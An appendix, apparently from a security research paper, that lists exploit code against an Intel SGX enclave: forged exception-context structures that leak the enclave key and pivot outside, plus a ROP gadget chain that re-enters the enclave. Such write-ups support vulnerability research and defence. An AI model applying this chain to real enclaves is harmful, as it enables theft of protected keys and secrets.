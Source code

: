 \section{Context-Switch Chain}
\label{app:context-switch-chain}
Details of the \texttt{sgx\_exception\_info\_t} 
structures used to leak the key and to switch outside the enclave.
The structures are used according to the techniques described in 
Appendix~\ref{ssec:my-rop-chain}.
	\begin{lstlisting}[style=CStyle,escapechar=@]
/* ...previous sgx_exception_info_t structures... */
// leaks the key outside the enclave
// memcpy(key, buff)
ctxPc[2].cpu_context.rsi = &key; // address of the key
ctxPc[2].cpu_context.rdi = &buff; // memory regions where leaking the key
ctxPc[2].cpu_context.rdx = KEY_LENGTH; // length of the key
ctxPc[2].cpu_context.rip = &memcpy;
// prepares the next boot chain in the workspace
// memcpy(boot_chain, workspace)
ctxPc[3].cpu_context.rdi = &workspace; // workspace address
ctxPc[3].cpu_context.rdx = sizeof(boot_chain);
ctxPc[3].cpu_context.rsi = &boot_chain_backup;
ctxPc[3].cpu_context.rip = &memcpy;
// set the fake OCALL frame in the enclave
// memcpy(fake_frame, enclave)
ctxPc[4].cpu_context.rdi = &fake_frame;
ctxPc[4].cpu_context.rdx = sizeof(fake_frame);
ctxPc[4].cpu_context.rsi = &fake_frame_backup;
ctxPc[4].cpu_context.rip = &memcpy;
// saves CPU extended states for asm_oret
// save_xregs(xsave_buffer)
ctxPc[5].cpu_context.rdi = &xsave_buffer;
ctxPc[5].cpu_context.rip = &save_xregs;
// sets the trusted thread as it is performing an OCALL
// update_ocall_lastsp(fake_frame)
ctxPc[6].cpu_context.rdi = fake_frame;
ctxPc[6].cpu_context.rip = &update_ocall_lastsp;
// pivots to the outside-chain
// eenclu[exit] -> outside_chain
ctxPc[7].cpu_context.rax = 0x4; // EEXIT
ctxPc[7].cpu_context.rsp = &outside_chain_stack;
ctxPc[7].cpu_context.rbx = &outside_chain_first_gadget;
ctxPc[7].cpu_context.rip = &enclu;\end{lstlisting}

Details of the outside ROP-chains used to resume 
payload inside the enclave.
	\begin{lstlisting}[style=CStyle,escapechar=@]
/* ...previous gadgets for shipping the password remotely... */
// gadgets to resume payload within the enclave
pop rax ; ret
0x2 // EENTER
pop rbx ; ret
&tcs_address
pop rdi ; ret // rdi = -2 -> ORET
0xfffffffffffffffe // -2
pop rcx ; ret // for async exit handler
&Lasync_exit_pointer
&enclu_urts\end{lstlisting}
